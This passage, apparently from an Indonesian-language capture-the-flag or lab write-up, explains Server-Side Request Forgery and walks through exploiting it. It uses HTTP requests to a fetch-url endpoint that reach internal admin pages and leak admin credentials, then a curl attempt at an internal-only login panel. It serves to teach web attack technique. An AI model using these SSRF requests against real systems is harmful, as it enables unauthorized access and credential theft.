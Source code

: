 Server-Side Request Forgery (SSRF) adalah kerentanan keamanan web yang memungkinkan penyerang memaksa aplikasi sisi server untuk membuat permintaan HTTP ke lokasi yang tidak diinginkan. Dalam serangan SSRF, penyerang dapat:
- Mengakses layanan internal yang tidak dapat diakses dari luar
- Membocorkan data sensitif seperti kredensial
- Bypass kontrol akses berbasis IP

### Exploiting SSRF

Mencoba mengakses endpoint admin yang sebelumnya terblokir:

**Request 1 - Dashboard (Unauthorized):**
```http
GET /api/fetch-url?url=http://localhost:5000/admin/dashboard
```

**Response:**
```json
{
  "error": "Unauthorized"
}
```

**Request 2 - Config (Success!):**
```http
GET /api/fetch-url?url=http://localhost:5000/admin/config
```

**Response:**
```json
{
  "admin_password": "SuperSecret123!",
  "admin_user": "superadmin",
  "login_panel_path": "/admin/panelloginpage"
}
```

**Berhasil!** Kita mendapatkan kredensial admin melalui SSRF:
- **Username:** `superadmin`
- **Password:** `SuperSecret123!`
- **Login Path:** `/admin/panelloginpage`

---

## Bypassing Internal-Only Access

### Accessing the Login Panel

Mencoba mengakses login panel secara langsung:

```bash
curl -i http://192.168.56.105/admin/panelloginpage
```

**Response:**
```
HTTP/1.1 403 Forbidden
Forbidden - Internal access only
```
